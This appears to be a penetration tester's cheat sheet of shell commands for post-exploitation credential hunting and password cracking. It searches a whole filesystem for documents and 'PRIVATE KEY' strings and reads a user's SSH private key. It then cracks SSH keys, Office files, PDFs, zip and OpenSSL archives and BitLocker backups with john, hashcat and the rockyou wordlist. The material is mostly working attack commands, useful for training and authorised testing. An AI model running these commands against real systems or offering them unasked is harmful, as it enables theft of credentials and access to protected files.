 
```bash
# hunting for files
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

# hunting for ssh keys
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"

# encrypted ssh keys
cat /home/cry0l1t3/.ssh/SSH.private
wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
ssh2john.py SSH.private > ssh.hash
john --wordlist=rockyou.txt ssh.hash
john ssh.hash --show
```
## Cracking documents
[[john]]
#### docs
```bash
office2john.py Protected.docx > protected-docx.hash
john --wordlist=rockyou.txt protected-docx.hash
john protected-docx.hash --show
```
#### pdf
```bash
pdf2john.py PDF.pdf > pdf.hash
john --wordlist=rockyou.txt pdf.hash
john pdf.hash --show
```
#### archives
Get list of extensions:
```bash
curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt
```
Zip:
```bash
zip2john ZIP.zip > zip.hash
john --wordlist=rockyou.txt zip.hash 
```
OpenSSl encrypted archives:
```bash
file GZIP.gzip 

GZIP.gzip: openssl encd data with salted password

# dictionary attack
for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done

ls
```
#### bitlocker
Brute-force recovery key of 48-digits.
```bash
bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash

hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked

cat backup.cracked 
```
